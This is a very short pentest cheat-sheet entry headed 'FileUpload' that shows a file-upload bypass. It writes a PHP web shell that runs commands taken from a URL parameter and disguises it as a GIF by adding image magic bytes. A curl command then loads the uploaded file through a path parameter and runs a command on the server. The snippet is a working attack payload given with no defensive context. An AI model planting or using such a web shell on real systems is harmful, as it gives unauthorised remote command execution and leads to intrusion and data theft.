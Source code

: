 # FileUpload

# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"

